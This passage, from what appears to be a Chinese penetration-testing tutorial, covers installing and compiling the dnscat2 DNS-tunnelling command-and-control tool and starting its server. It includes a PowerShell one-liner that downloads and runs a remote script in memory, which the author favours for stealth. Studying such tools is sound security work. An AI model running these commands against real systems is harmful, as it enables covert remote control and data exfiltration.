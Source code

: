 如果运行 `sudo gem install bundler` 提示 `Command 'gem' not found`，则需要先安装 ruby

```
sudo apt-get install ruby
```

如果运行 `bundle install` 提示 `Gem::Ext::BuildError: ERROR: Failed to build gem native extension.`，则需要先安装 ruby-dev

```
sudo apt-get install ruby-dev
```

2、客户端
-----

dnscat2 客户端在使用前需要进行编译才能使用，在 Windows 中可以使用 VS 进行编译或者直接使用 PowerShell 的版本，Linux 中可以使用 `make install` 进行编译。

Linux 下可以通过以下方法进行编译

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
make
```

Windows 可以直接下载已经编译好的版本

exe 版（解压密码：password）：https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip

PowerShell 版：https://github.com/lukebaggett/dnscat2-powershell

如果使用 PowerShell 版，可以直接使用下面的命令导入，在实际情况中，也更推荐使用 PowerShell 版的，毕竟隐蔽性要更好些。

```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')
```

或者下载 ps1 文件后，使用以下命令导入

```
Import-Module .\dnscat2.ps1
```

三、

**_使用_**

1、直连模式
------

**启动服务端**，这里服务端 IP 为 172.16.214.50

```
cd /dnscat2/server
sudo ruby ./dnscat2.rb -s 553 -c teamssix --no-cache
```

```
-s 指定 dns 服务端口
 -c 指定连接密码
 --no-cache 禁止缓存，添加该项为了使和 PowerShell 版本的 dnscat2 兼容
```
